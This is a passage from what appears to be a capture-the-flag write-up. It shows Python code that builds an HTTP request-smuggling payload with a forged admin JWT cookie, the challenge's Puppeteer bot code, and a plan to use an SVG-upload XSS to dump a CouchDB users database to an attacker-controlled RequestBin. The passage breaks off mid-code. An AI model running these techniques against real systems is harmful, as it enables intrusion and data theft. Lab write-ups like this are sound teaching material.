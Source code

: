 ```python
	second_part = b'\r\n\r\n POST ' + url.encode() + b' HTTP/1.1\r\nCookie: session=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IjYwM2MyZTZiLWU2MjktNGJlYS1iODEzLWU0Y2NmNzY1Y2YyNSIsImprdSI6Imh0dHA6Ly9sb2NhbGhvc3Q6MTMzNy91cGxvYWRzLzJhNWY1NTU3ZDg5ZTQ0YzFjMDk5ODNhNTFlMjQyYWQwLnBuZyJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjM3NTA3ODYyfQ.gWm-Jz1fSQ8lucWVvq8arfQ36oz-joDZhJOwisTMQvzPZu7S8VEF7cAO4mseRyeJukWJUojDNES7AsqHPp8E1Ys_K5pIHhwrcpy-w2WGTK3Y1fwLmXNmdeI9Vpi5N5JBYh7ku05N06reBUemCZ7ckG9UMrJ6ZJm4xnHamD076AD6NLxJrzkbICxSukk0ajYXQgY6bQTPlZyZ7Lj3X3ycLmTUuxDhTDwwR9U45pjfBZeY26eqUdGhuzc6pRUeAlQdrVJrtdeMQilIra0RB4jtl8AzTbevXN0MJ6j1WRs3C9MVNdOMbKSmaerdZnbp-KUa5h9dD2GDdn_GiTPEV8ve2w' + post_content
	first_part = b'POST /register HTTP/1.1\r\nHost: '+host.encode()+b'\r\nContent-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\r\nContent-Length: '+str(len(second_part) - 2).encode()
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((host,port))
	s.send(first_part + second_part)
	time.sleep(2)
	print (s.recv(10000))
	s.close()
```
Whilst it looks complex, all this function does is takes a url string and parameters, formats it into an HTTP request, and encapsulates it in the format required for the exploit. Note that we will rever receive any useful data - we have to trust that the post request has in fact been made.

## Exploiting Puppeteer
Now we have access to the puppeteer endpoint, it's time to exploit it. Let's see what it can do:
```js
const testUI = async (path, keyword) => {
	return new Promise(async (resolve, reject) => {
	const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();
		try {
			await page.goto(`http://127.0.0.1:1337/${path}`, {
				waitUntil: 'networkidle2'
				});
			await page.waitForTimeout(8000);
			await page.evaluate((keyword) => {
				return document.querySelector('body').innerText.includes(keyword)
			}, keyword)
				.then(isMatch => resolve(isMatch));
		} catch(e) {
			reject(false);
		}
		await browser.close();
	});
};
```
We observe that the puppeteer instance is sitting on the network behind the proxy preventing us from accessing the couchDB HTTP API port - `localhost:5984`. Furthermore, the admin password for the database is exposed in plaintext in the downloadable as `youwouldntdownloadacouch`. If we can somehow use puppeteer to hit the database API endpoints, we can dump the database using `/users/_all_docs` (from the CouchDN docs), which will give us the flag as a field on the `admin` user. However, this initially seems very limited - we cant use puppeteer to access the database port, since it forces us to only access the node app. However, if we look back over the list of allowed filetypes, we see that we can upload `svg` files. As described [here](https://research.securitum.com/do-you-allow-to-load-svg-files-you-have-xss/), this immediately allows us to execute an XSS attack against the puppeteer bot, and we can run arbitrary javascript from its privileged context. The following code will dump all the user data from the users database, and send it in a POST request to a [RequestBin](https://requestbin.com/) instance that we registered:
```js
function jj() {
	const Http1 = new XMLHttpRequest();
```